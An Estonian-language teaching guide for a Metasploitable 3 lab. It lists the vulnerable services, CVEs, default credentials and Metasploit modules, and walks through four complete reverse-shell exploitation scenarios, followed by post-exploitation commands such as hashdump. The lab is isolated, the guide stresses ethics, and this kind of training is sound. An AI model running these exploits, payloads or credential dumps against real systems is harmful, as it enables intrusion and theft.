

# Metasploitable 3: teenused ja haavatavused

## Sisukord

1. [Mis on Metasploitable 3](#mis-on-metasploitable-3)
2. [Mida on labori jooksutamiseks vaja](#mida-on-labori-jooksutamiseks-vaja)
3. [Põhimõisted ja terminid](#põhimõisted-ja-terminid)
4. [Windows Server 2008 R2 - teenused ja haavatavused](#windows-server-2008-r2---teenused-ja-haavatavused)
5. [Ubuntu 14.04 - teenused ja haavatavused](#ubuntu-1404---teenused-ja-haavatavused)
6. [Vaikemandaadid](#vaikemandaadid)
7. [Lipud (flags) ja CTF-režiim](#lipud-flags-ja-ctf-režiim)
8. [Metasploit raamistiku juhend](#metasploit-raamistiku-juhend)
9. [Näidis-ründestsenaariumid](#näidis-ründestsenaariumid)
10. [Veaotsing (levinud probleemid)](#veaotsing-levinud-probleemid)
11. [Eetika, õiguslikud piirid ja turvaline labor](#eetika-õiguslikud-piirid-ja-turvaline-labor)
12. [Lisamaterjalid ja viited](#lisamaterjalid-ja-viited)

## Mis on Metasploitable 3

Metasploitable 3 on Rapid7 loodud tahtlikult haavatav virtuaalmasin, mille ainus eesmärk on olla turvaline sihtmärk ründetehnikate ja Metasploiti harjutamiseks isoleeritud laboris. See ei ole toode, mida paigaldada tootmisesse - see on õppekeskkond, kuhu on teadlikult sisse ehitatud kümneid teadaolevaid turvaauke.

**Kaks eraldi masinat.** Projekt annab kaks erinevat sihtmasinat, millel on erinevad teenused ja nõrkused:

- **Windows Server 2008 R2** - Vagrant-box'i nimi `metasploitable3-win2k8`. Keskendub Windowsi ja Java-põhiste rakenduste (Jenkins, Tomcat, GlassFish, ElasticSearch, ManageEngine) haavatavustele.
- **Ubuntu 14.04** - Vagrant-box'i nimi `metasploitable3-ub1404`. Keskendub Linuxi teenustele ja veebirakendustele (ProFTPD, Samba, Drupal, UnrealIRCd, phpMyAdmin).

**Erinevus Metasploitable 2-st.** Metasploitable 2 oli üks valmis Linuxi tõmmis (snapshot). Metasploitable 3 ehitatakse selle asemel dünaamiliselt: Packer ja Vagrant koos hulga skriptidega paigaldavad ja seadistavad haavatavad teenused nullist üles. See annab korratava, versioonihallatava ja kohandatava keskkonna - saad ise haavatavusi lisada või eemaldada.

**Litsents ja lähtekood.** BSD-stiilis litsents, tasuta. Kood ja dokumentatsioon on GitHubis (`rapid7/metasploitable3`), põhjalik info projekti wikis.

> ⚠️ **Oluline turvahoiatus.** Ära kunagi ava neid masinaid avalikku internetti ega ühenda koolivõrku, kus on pärisandmed. Need on teadlikult turvaukudega ja võivad reaalselt nakatuda minutitega. Kasuta ainult isoleeritud laborivõrgus (host-only või internal network) ja harjuta ainult nende õppemasinate - oma süsteemide - vastu.

## Mida on labori jooksutamiseks vaja

Labori käivitamiseks on vaja keskkonda, kus masinad töötavad, ründemasinat ja piisavalt riistvararessurssi.

**Kooli Proxmoxis (valmis keskkond):**

- **Riistvararessurss** - Proxmoxi hostil peab olema piisavalt CPU-d, RAM-i ja kettaruumi kõigile korraga töötavatele masinatele (vt allpool).
- **Kali Linux** - ründemasin, mis on juba olemas ja käib samas isoleeritud laborivõrgus kui sihtmasinad.
- **Sihtmasinad** - Metasploitable 3 Windows ja/või Ubuntu, imporditud Proxmoxi.

**Iseseisvaks jooksutamiseks (nt oma arvutis):**

- **Hüperviisor** - virtuaalmasinate käitamiseks (nt VirtualBox, VMware või Proxmox VE).
- **Ründemasin** - Kali Linux (või muu pentest-distro).
- **Piisav ressurss kõigile masinatele** - kõik masinad peavad korraga mahtuma ühe hosti RAM-i ja kettale.

**Soovituslik ressurss masina kohta:**

| Masin | RAM | vCPU | Ketas |
| --- | --- | --- | --- |
| Metasploitable 3 Windows Server 2008 R2 | 2-4 GB | 2 | ~40 GB |
| Metasploitable 3 Ubuntu 14.04 | 1-2 GB | 1-2 | ~20 GB |
| Kali Linux (ründemasin) | 2-4 GB | 2 | ~20 GB |

Kõik kolm korraga eeldavad hostil umbes 8 GB vaba RAM-i ja 80 GB kettaruumi. Vähema RAM-iga saab masinaid ka ükshaaval käivitada.

> Kõik masinad peavad olema samas isoleeritud võrgusegmendis, et ründemasin sihtmasinaid näeks (vaata täpsemalt peatükki „Eetika, õiguslikud piirid ja turvaline labor").

## Põhimõisted ja terminid

Lühike sõnastik mõistetest, mida selles juhendis ja Metasploiti töös pidevalt kohtad.

- **Haavatavus (vulnerability)** - viga või nõrkus tarkvaras või seadistuses, mida saab ära kasutada.
- **CVE (Common Vulnerabilities and Exposures)** - avalik ühtne tunnus konkreetsele teadaolevale haavatavusele, nt `CVE-2015-3306` (aasta + number). Võimaldab sama auku üheselt viidata ja tööriistades üles otsida.
- **Exploit** - tehnika või kood, mis konkreetset haavatavust ära kasutab.
- **Payload** - kood, mis käivitub sihtmärgil pärast edukat exploiti (nt shell või Meterpreter).
- **nmap** - võrgu- ja pordiskanner, mis leiab avatud pordid, teenused ja nende versioonid. Näide: `nmap -sV -p- <IP>` skannib kõiki porte ja tuvastab teenuste versioonid.
- **Port ja teenus** - port on numbriline „uks" masinasse (nt 22, 80, 445); teenus on selle taga töötav rakendus (SSH, HTTP, SMB).
- **RCE (Remote Code Execution)** - kaugkäsu- või kooditäitmine ehk võimalus käivitada oma kood üle võrgu sihtmasinal. Üks ohtlikumaid haavatavuse tüüpe.
- **Reverse shell ja bind shell** - reverse shell: sihtmasin ühendub tagasi ründaja masinaga; bind shell: sihtmasin avab pordi, kuhu ründaja ise ühendub.
- **Privileegide eskaleerimine (privilege escalation)** - tavakasutaja õiguste tõstmine administraatori või root-tasemeni.
- **Brute-force** - mandaatide (kasutaja/parool) süstemaatiline äraarvamine paljude variantide läbiproovimisega.
- **CTF ja lipp (flag)** - „Capture The Flag": õppeülesanne, kus eesmärk on leida peidetud „lipud", kasutades selleks ära haavatavusi.
- **VM ja hüperviisor** - virtuaalmasin (VM) on tarkvaraline arvuti; hüperviisor (nt Proxmox VE, VirtualBox) haldab virtuaalmasinaid.
- **LHOST / RHOSTS** - Metasploiti parameetrid: `LHOST` on ründaja (kuulamis)aadress, `RHOSTS` on sihtmärgi aadress.

## Windows Server 2008 R2 - teenused ja haavatavused

Windowsi masin avab pärast täisskanni (`nmap -sV -p- <IP>`) kümneid porte. Allpool on peamised haavatavad teenused, neid mõjutavad nõrkused ja vastavad Metasploiti moodulid. Enamik rünnakuteid tugineb kas teadaolevale CVE-le või nõrkadele/vaikimisi mandaatidele.

| Teenus / rakendus | Port | Haavatavus või nõrkus (CVE) | Metasploiti moodul |
| --- | --- | --- | --- |
| Jenkins | 8484 | Autentimata Script Console → Groovy RCE | `exploit/multi/http/jenkins_script_console` |
| Apache Tomcat | 8282 | Nõrgad halduri mandaadid; CVE-2009-3843, CVE-2009-4189 | `auxiliary/scanner/http/tomcat_mgr_login`, `exploit/multi/http/tomcat_mgr_upload` |
| Apache Struts 2 | 8282 | CVE-2016-3087 (REST-plugina OGNL RCE) | `exploit/multi/http/struts_dmi_rest_exec` |
| Apache Axis2 | 8282 | Vaikemandaadid admin/axis2 → WAR juurutamine | `exploit/multi/http/axis2_deployer` |
| GlassFish server | 4848, 8080, 8181 | Nõrgad admin-mandaadid, WAR-i juurutamine | `auxiliary/scanner/http/glassfish_login`, `exploit/multi/http/glassfish_deployer` |
| ElasticSearch 1.1.1 | 9200 | CVE-2014-3120 (dünaamilise skripti RCE) | `exploit/multi/elasticsearch/script_mvel_rce` |
| ManageEngine Desktop Central 9 | 8383 | CVE-2015-8249 (FileUploadServlet) | `exploit/windows/http/manageengine_connectionid_write` |
| IIS (HTTP.sys) | 80 | CVE-2015-1635 / MS15-034 (DoS) | `auxiliary/dos/http/ms15_034_ulonglongadd` |
| IIS FTP | 21 | Nõrgad / anonüümsed mandaadid | `auxiliary/scanner/ftp/ftp_login` |
| WordPress + Ninja Forms | 8585 | Plugina autentimata failiüleslaadimine | `exploit/unix/webapp/wp_ninja_forms_unauthenticated_file_upload` |
| phpMyAdmin | 8585 | preg\_replace RCE | `exploit/multi/http/phpmyadmin_preg_replace` |
| WebDAV | 8585 | Lubatud HTTP PUT → faili üleslaadimine | `auxiliary/scanner/http/http_put` |
| SMB / psexec | 139, 445 | Nõrgad administraatori mandaadid | `exploit/windows/smb/psexec` |
| WinRM | 5985 | Nõrgad mandaadid → kaugkäsutäitmine | `exploit/windows/winrm/winrm_script_exec` |
| JMX (Java) | 1617 | Autentimata MBean → RCE | `exploit/multi/misc/java_jmx_server` |
| MySQL | 3306 | Nõrgad root-mandaadid; MOF/UDF payload | `exploit/windows/mysql/mysql_mof` |
| Ruby on Rails (Web Console) | 3000 | CVE-2015-3224 | `exploit/multi/http/rails_web_console_v2_code_exec` |
| SNMP | 161/udp | Vaikimisi community string „public" | `auxiliary/scanner/snmp/snmp_enum` |
| Remote Desktop (RDP) | 3389 | Mandaadi jõuründe sihtmärk | `auxiliary/scanner/rdp/rdp_scanner` |
| Chinese Caidao web shell | 80 | Eelpaigaldatud veebi-tagauks | `auxiliary/scanner/http/caidao_bruteforce_login` |

Pordid ja versioonid võivad ehitusversiooniti veidi erineda - kontrolli alati esmalt nmap-skanniga. Paljud teenused jagavad sama parooliloendit; nõrgad mandaadid (nt `vagrant`, `admin`) on sageli kiireim sissepääs.

## Ubuntu 14.04 - teenused ja haavatavused

Ubuntu masin keskendub Linuxi teenustele ja veebirakendustele. Tüüpiline skann (`nmap -O -sV -p- <IP>`) toob välja alloleva pildi. Osa rünnetest on „ühe mooduliga" (nt UnrealIRCd tagauks), osa nõuab käsitsi tööd (nt SQL-süst palgarakenduses).

| Teenus / rakendus | Port | Haavatavus või nõrkus (CVE) | Metasploiti moodul |
| --- | --- | --- | --- |
| ProFTPD 1.3.5 | 21 | CVE-2015-3306 (mod\_copy kaugkäsutäitmine) | `exploit/unix/ftp/proftpd_modcopy_exec` |
| OpenSSH 6.6.1p1 | 22 | Nõrgad mandaadid (nt vagrant/vagrant) | `auxiliary/scanner/ssh/ssh_login` |
| UnrealIRCd 3.2.8.1 | 6697 | CVE-2010-2075 (lähtekoodi tagauks) | `exploit/unix/irc/unreal_ircd_3281_backdoor` |
| Drupal 7 | 80 | CVE-2014-3704 (Drupalgeddon SQLi), CVE-2018-7600 (Drupalgeddon2 RCE) | `exploit/multi/http/drupal_drupageddon`, `exploit/unix/webapp/drupal_drupalgeddon2` |
| payroll\_app.php (Apache) | 80 | SQL-süst (UNION-põhine, käsitsi) | käsitsi / `sqlmap` |
| Apache Continuum | 8080 (Jetty) | Autentimata käsusüst (command injection) | `exploit/multi/http/apache_continuum_cmd_exec` |
| Samba | 139, 445 | Nõrk konfiguratsioon, nõrgad mandaadid, jagatud kaustad | `auxiliary/scanner/smb/smb_login` |
| MySQL | 3306 | Nõrgad mandaadid | `auxiliary/scanner/mysql/mysql_login` |
| CUPS 1.7 | 631 | Vananenud trükiserver (teabe lekked) | `auxiliary/scanner/http/*` |
| Apache httpd 2.4.7 | 80 | Majutab haavatavaid rakendusi (Drupal, phpMyAdmin, payroll) | - (ründa rakendusi) |
| WEBrick / Ruby rakendus | 3500 | Vananenud rakendusserver (chat-rakendus) | käsitsi |
| Docker | (sisemine) | Nõrgalt seadistatud konteiner → privileegide eskaleerimine | post / käsitsi |

Märkus: `vagrant` kasutajal on sageli `sudo`-õigused, seega kehtivate SSH-mandaatide leidmine (nt SQL-süstiga lekkinud paroolid) viib tihti otse root-õigusteni `sudo -i` kaudu.

## Vaikemandaadid

Metasploitable 3 kasutab tahtlikult nõrku ja vaikimisi mandaate. Need on sageli kiireim sissepääs - proovi neid enne pikka brute-force'i. Täpne loend sõltub ehitusest; kahtluse korral kasuta vastavat `auxiliary/scanner/.../login` moodulit või vaata projekti wikit.

| Teenus / kontekst | Kasutaja | Parool |
| --- | --- | --- |
| OS-i sisselogimine (Windows & Ubuntu) | `vagrant` | `vagrant` |
| Ubuntu alternatiivne ehitus | `msfadmin` | `msfadmin` |
| Apache Tomcat Manager (8282) | `sploit` | `sploit` |
| GlassFish admin (4848) | `admin` | `sploit` |
| MySQL | `root` | *(tühi parool)* |
| SNMP community string | — | `public` |

Lisaks on masinas hulk nõrkade paroolidega kasutajakontosid (nt `han_solo`, `boba_fett`, `kylo_ren` jt), mis sobivad SSH ja SMB sisselogimiseks. Neid saab leida `auxiliary/scanner/ssh/ssh_login` või `auxiliary/scanner/smb/smb_login` mooduliga, kasutades sõnaloendit.

## Lipud (flags) ja CTF-režiim

Mõlemasse masinasse on peidetud „lipud" - Windowsi masinas on need mängukaardi-pildid (pokkerikaardid), mis on laiali failisüsteemis ja teenustes. Eesmärk on leida kõik kaardid, kasutades erinevaid sissemurdmise ja post-exploitationi tehnikaid.

Õppes annab see loomuliku CTF-stiilis ülesande:

- Iga lipp nõuab tavaliselt eri teenuse ärakasutamist või õiguste eskaleerimist.
- Õpilased dokumenteerivad, millise haavatavuse kaudu nad iga lipu leidsid.
- Hindamise saab siduda leitud lippude arvu ja kasutatud tehnikate kirjeldusega.

Soovitus: anna õpilastele ette ülesandeleht, kus iga lipu juurde tuleb kirja panna sihtport, kasutatud moodul/tehnika ja saadud õiguste tase (kasutaja vs. administraator/root).

## Metasploit raamistiku juhend

Metasploit Framework on moodulipõhine ründe- ja testimisraamistik; `msfconsole` on selle peamine käsurea liides. Töö käib korduvas tsüklis: vali moodul, sea selle parameetrid, käivita ja halda saadud sessioone.



Kõik moodulid käivad läbi sama tuuma (msfconsole); tüüpiline rünnak seob exploiti ja payloadi.

### Põhimõisted

- **Exploit** - moodul, mis kasutab ära ühte konkreetset turvaauku.
- **Payload** - kood, mis käivitub sihtmärgil pärast edukat exploiti (nt reverse shell).
- **Meterpreter** - võimekas, mälus töötav payload, mis annab interaktiivse sessiooni (failihaldus, protsessid, õiguste eskaleerimine, pivot).
- **Auxiliary** - skannerid, brute-force ja luuremoodulid (ei anna otse shelli).
- **Post** - moodulid juba hõivatud masinal (andmete kogumine, liikumine edasi).
- **Session** - aktiivne ühendus ärakasutatud masinaga.
- **LHOST / LPORT** - ründaja kuulamisaadress ja -port; **RHOSTS / RPORT** - sihtmärk.

### msfconsole põhikäsud

```
msfconsole                 # käivita konsool
search jenkins             # otsi mooduleid märksõna järgi
use exploit/multi/http/jenkins_script_console
info                       # mooduli kirjeldus ja viited
show options               # nõutavad parameetrid
set RHOSTS 10.0.0.50       # sihtmärgi IP
set RPORT 8484             # sihtport
set LHOST 10.0.0.10        # ründaja (sinu) IP
show payloads              # sobivad payloadid
set PAYLOAD <payload>      # vali payload
check                      # kontrolli haavatavust (kui toetatud)
exploit                    # (või run) käivita
sessions -l                # loetle avatud sessioone
sessions -i 1              # sisene sessiooni nr 1
background                 # jäta aktiivne sessioon taustale
```

### Andmebaas ja töötsoonid

PostgreSQL-andmebaas laseb skaneeringu tulemused salvestada ja hiljem pärida - hädavajalik suurema labori puhul.

```
systemctl start postgresql
msfdb init                 # loo ja initsialiseeri andmebaas
msfconsole
workspace -a lab-ms3       # loo eraldi töötsoon
db_nmap -sV -p- 10.0.0.50  # skanni ja salvesta tulemused
hosts                      # loetle avastatud hoste
services                   # loetle teenuseid
vulns                      # loetle leitud haavatavusi
```

### Tüüpiline töövoog

**NB! Kõigepealt seadista labori masinatele võrk (Kali ja mõlemad Metasploitable masinad peavad saama võrku, muidu pole teil midagi rünnata).**

1. **Luure ja skaneerimine** - `db_nmap`/`nmap` abil leia avatud pordid, teenused ja versioonid.
2. **Haavatavuste sobitamine** - seo versioonid teadaolevate CVE-dega (`search`, `vulns`, soovi korral Nessuse import).
3. **Exploiti valik** - `use <moodul>`, loe `info` ja tee `check`.
4. **Parameetrite seadmine** - `RHOSTS`, `RPORT`, `LHOST` ja sobiv `PAYLOAD`.
5. **Käivitamine** - `exploit`; õnnestumisel avaneb sessioon.
6. **Post-exploitation** - õiguste eskaleerimine, andmete kogumine, edasiliikumine (`post/...`, Meterpreter).
7. **Dokumenteerimine** - pane kirja leitud haavatavused, kasutatud moodulid ja lipud.

## Näidis-ründestsenaariumid

Allpool on neli täielikku näidet erinevatest teenustest. Asenda IP-d oma labori omadega (`RHOSTS` = sihtmärk, `LHOST` = sinu ründemasin).

### 1. Jenkins Script Console → RCE (Windows, 8484)

Jenkins on CI/CD-automaatikaserver. Metasploitable3-l on selle Script Console (`/script`) avatud ilma autentimiseta, mis lubab käivitada suvalist Groovy-koodi serveri õigustes. Kuna Groovy saab käivitada ka operatsioonisüsteemi käske, annab see otsese kaugkäsutäitmise (RCE). Metasploiti moodul automatiseerib Groovy-koodi süstimise ja payloadi käivitamise.

```
use exploit/multi/http/jenkins_script_console
set RHOSTS 10.0.0.50        # sihtmärk (Metasploitable3 Windows)
set RPORT 8484              # Jenkinsi port
set TARGETURI /             # Jenkinsi juurtee
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.0.0.10         # sinu ründemasina IP
set LPORT 4444              # kuulamisport
exploit
```

Käivitamisel süstib moodul Script Console'i Groovy-koodi, mis laeb ja käivitab payloadi. Õnnestumisel ilmub väljundisse rida stiilis `Meterpreter session 1 opened` ning avaneb `meterpreter >` viip. Kontrolliks käivita `sysinfo` (masina andmed) ja `getuid` (millise kasutaja õigustes Jenkins töötab - sageli piisavalt kõrged õigused edasiliikumiseks).

### 2. UnrealIRCd tagauks (Ubuntu, 6697)

UnrealIRCd on IRC-server. Versioon 3.2.8.1 levis mõnda aega lähtekoodiga, kuhu oli pahatahtlikult lisatud tagauks (CVE-2010-2075): kui serverile saadetud sõnum algab kindla märgijadaga, käivitab server järgneva süsteemikäsu. Moodul kasutab seda ära, saates käsu, mis avab shelli tagasi ründaja masinale.

```
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOSTS 10.0.0.60        # sihtmärk (Ubuntu)
set RPORT 6697              # IRC üle SSL (võib olla ka 6667)
set PAYLOAD cmd/unix/reverse
set LHOST 10.0.0.10         # sinu IP
set LPORT 4444
exploit
```

Pärast `exploit`-i avaneb käsushell (command shell). Shell võib olla „pime" ehk viipa ei kuva - proovi kohe `id` ja `uname -a`, mis kinnitavad, et oled sihtmasinal ja millise kasutaja õigustes (tavaliselt IRC-teenuse kasutaja). Avatud sessioone loetleb `sessions -l` ja sisened käsuga `sessions -i <id>`.

### 3. ProFTPD mod\_copy (Ubuntu, 21)

ProFTPD 1.3.5 sisaldab mooduli `mod_copy` viga (CVE-2015-3306): käske `SITE CPFR` ja `SITE CPTO` saab kasutada ilma autentimiseta failide kopeerimiseks serveris. Kui veebijuur on kirjutatav, saab sinna kopeerida pahatahtliku skripti ja selle seejärel HTTP kaudu käivitada. Moodul teeb kogu ahela automaatselt.

```
use exploit/unix/ftp/proftpd_modcopy_exec
set RHOSTS 10.0.0.60        # sihtmärk (Ubuntu)
set RPORT 21               # FTP port
set SITEPATH /var/www/html  # kirjutatav veebijuur
set PAYLOAD cmd/unix/reverse_perl
set LHOST 10.0.0.10
exploit
```

`SITEPATH` peab osutama kirjutatavale veebijuurele (Metasploitable3-l tavaliselt `/var/www/html`). Õnnestumisel kopeeritakse payload veebijuurde, käivitatakse see HTTP kaudu ja avaneb shell. Kontrolliks `id` ja `pwd`. Kui näed viga failide kopeerimisel, on `SITEPATH` tõenäoliselt vale - kontrolli Apache veebijuure tegelikku asukohta.

### 4. Apache Tomcat Manager -> WAR-i juurutamine (Windows, 8282)

Apache Tomcati haldusliides (Manager App) lubab sisseloginud kasutajal juurutada uusi veebirakendusi WAR-failina. Metasploitable3-l on halduril nõrgad mandaadid. Rünnak käib kahes etapis: esmalt leia kehtiv parool brute-force'iga (auxiliary-moodul), seejärel juuruta pahatahtlik WAR, mis annab shelli (exploit-moodul). See näitab hästi, kuidas luuremoodul ja ründemoodul koos töötavad.

**1. samm - leia halduri mandaat:**

```
use auxiliary/scanner/http/tomcat_mgr_login
set RHOSTS 10.0.0.50        # sihtmärk (Windows)
set RPORT 8282              # Tomcati port
run
# väljund näitab leitud mandaati, nt:
# [+] 10.0.0.50:8282 - Login Successful: tomcat:<parool>
```

**2. samm - juuruta WAR-payload leitud mandaadiga:**

```
use exploit/multi/http/tomcat_mgr_upload
set RHOSTS 10.0.0.50
set RPORT 8282
set HttpUsername <kasutaja>   # 1. sammust leitud
set HttpPassword <parool>     # 1. sammust leitud
set PAYLOAD java/meterpreter/reverse_tcp
set LHOST 10.0.0.10
exploit
```

Moduul laeb Manageri kaudu üles WAR-faili, käivitab selle ja avab Meterpreteri sessiooni. Kuna Tomcat töötab siin Windowsi teenusena, on saadud õigused sageli kõrged. Kontrolliks `getuid` ja `sysinfo`.

### Post-exploitation Meterpreteriga

Kui sessioon on avatud, saab edasi uurida ja õigusi tõsta:

```
sessions -i 1       # sisene sessiooni
sysinfo             # masina info
getuid              # praegune kasutaja
getsystem           # proovi tõsta õigusi (Windows)
hashdump            # paroolihäshid (vajab admin-õigusi)
shell               # ava natiivne käsurida
```

Soovitus õppes: Tee iga sammu järel ekraanitõmmis ja kirjelda, mida käsk tegi - nii seostub tööriist konkreetse haavatavusega.

## Veaotsing (levinud probleemid)

- **Sihtmasin ei vasta nmapile.** Kontrolli, et ründe- ja sihtmasin on samas võrgus (sama SDN/VLAN) ning et Windowsi masina tulemüür ei blokeeri - Metasploitable 3 Windowsil on Windows Firewall vaikimisi sees. Vajadusel saab selle admin-käsureal välja lülitada: `netsh advfirewall set allprofiles state off`.
- **Oma IP teadmine.** `LHOST` peab olema sinu ründemasina (Kali) IP, mitte `127.0.0.1`. Kontrolli käsuga `ip a` (või `ifconfig`).
- **„Exploit completed, but no session was created."** Payload ei pääsenud ründemasinale tagasi (vale `LHOST`, tulemüür) või teenus polnud haavatav. Proovi teist payloadi, kontrolli porti ja tee enne `check`.
- **Teenus pole aktiivne.** Osa teenuseid (nt RDP) tuleb sihtmasinal käsitsi lubada või registrivõti seadistada - vaata wikist, kas teenus on vaikimisi käivitatud.
- **Vale tee või port.** Nt `SITEPATH`, `TARGETURI` või `RPORT` on vale - kontrolli teenuse tegelikku seadistust nmap-skannist.
- **Masin käitub pärast rünnakut imelikult.** Taasta Proxmoxi snapshotist algseis ja alusta puhtalt.

## Eetika, õiguslikud piirid ja turvaline labor

Neid tehnikaid tohib kasutada ainult süsteemide vastu, mille omanik oled sina või milleks sul on selge kirjalik luba. Lubamatu sissetung võõrasse süsteemi on Eestis ja mujal kuritegu - õppemasinad on just selleks, et harjutada seaduslikult.

Turvalise labori põhireeglid:

- **Isoleeri võrk.** Pane õppemasinad eraldi VLAN-i või host-only / internal bridge'i, millel pole ühendust internetti ega kooli tootmisvõrku. **Teie labor on Proxmoxis eraldi SDN võrgus.**
- **Ainult omavaheline liiklus.** Ründemasin (nt Kali) ja sihtmasinad on samas isoleeritud segmendis; muu võrk jääb kättesaamatuks.
- **Tee hetktõmmised (snapshots).** Enne iga harjutust tee Proxmoxis snapshot, et saaksid masinad kiiresti algseisu taastada. **Antud laboris on snapshotid juba tehtud labori loomisel.**
- **Ära jäta masinaid tööle.** Lülita õppemasinad pärast tunde välja - need on teadlikult haavatavad. **Tasub meelde tuletamist.**
- **Selged reeglid.** Küberturbe tunnis eetilise häkkimise laboris rünnatakse ainult ettenähtud sihtmärke ja ainult labori sees.

## Lisamaterjalid ja viited

- **Metasploitable 3 - ametlik repo:** [github.com/rapid7/metasploitable3](https://github.com/rapid7/metasploitable3) - ehitusjuhend, Vagrantfile, skriptid.
- **Haavatavuste wiki:** [rapid7/metasploitable3 wiki](https://github.com/rapid7/metasploitable3/wiki) - iga teenuse pordid, CVE-d ja moodulid.
- **Metasploit Framework:** [github.com/rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework).
- **Metasploit Unleashed (tasuta kursus):** [offsec.com/metasploit-unleashed](https://www.offsec.com/metasploit-unleashed/).
- **Rapid7 mooduli- ja CVE-andmebaas:** [rapid7.com/db](https://www.rapid7.com/db/).

### Allikad

- [Metasploitable3 - rapid7/metasploitable3 (GitHub)](https://github.com/rapid7/metasploitable3)
- [Metasploitable3 Vulnerabilities wiki (GitHub)](https://github.com/rapid7/metasploitable3/wiki/Vulnerabilities)
- [List of Metasploit Modules for Metasploitable3 (Yeah Hub)](https://www.yeahhub.com/list-metasploit-exploits-modules-metasploitable3-vulnerable-machine/)
- [Exploiting ManageEngine Desktop Central 9 (Hacking Tutorials)](https://www.hackingtutorials.org/metasploit-tutorials/exploiting-manageengine-desktop-central-9/)
- [Metasploitable3 Ubuntu pentest lab (Sudo-Creator, GitHub)](https://github.com/Sudo-Creator/Metasploitable3-pentest-lab)
